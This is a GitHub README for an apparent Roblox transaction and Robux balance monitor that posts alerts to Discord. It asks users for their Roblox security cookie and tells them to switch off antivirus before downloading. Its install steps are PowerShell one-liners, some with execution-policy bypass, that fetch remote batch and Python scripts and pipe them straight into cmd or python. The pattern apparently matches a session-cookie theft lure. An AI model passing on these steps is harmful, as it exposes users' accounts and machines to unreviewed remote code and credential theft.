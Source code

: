 # Roblox Transaction Monitor
![image]([https://github.com/user-attachments/assets/16669dc8-7a44-4c9d-8f60-48a9d46cdb08](https://github.com/user-attachments/assets/b27ec9de-5b2b-49f7-bf23-66086ebdc2b1))

A GUI application to monitor Roblox transactions and Robux balance changes in real-time. Get Discord notifications when your Roblox economy data changes.

## Features

- [x] Real time monitoring of Roblox transactions
- [x] Robux balance tracking
- [x] Discord webhook integration for notifications
- [x] User friendly GUI interface
- [x] Customizable monitoring intervals
- [x] Detailed logging system

## Also just a Quick Fix

- [x] Turn Anti virus off
- [x] then download the app
- [x] after that turn the anti virus back on and you're done

## TODO
- [x] Create a Dropdown menu like past day month year total
- [ ] Create a Stable Application

## Configuration
The application requires the following configuration:

1. Roblox Security Cookie
2. Discord Webhook URL
3. Discord Emoji ID for Robux display
4. Discord Emoji Name
5. Check Interval (update what ever time you want to set to)
6. Total Checks (Transaction/Balance) Like (Day Month Year)

## Usage
Run the application by executing this command

Install Requirements packages
```
powershell -ep bypass -Command "IWR 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/install.bat' | % Content | cmd"
```
Python Stable Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/main.py').Content | python"
```
Python Dev Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/maindev.py').Content | python"
```
unInstall packages
```
powershell -ep bypass -Command "IWR 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/uninstall.bat' | % Content | cmd"
```
## License
This project is licensed under the Apache License - see the LICENSE file for details.
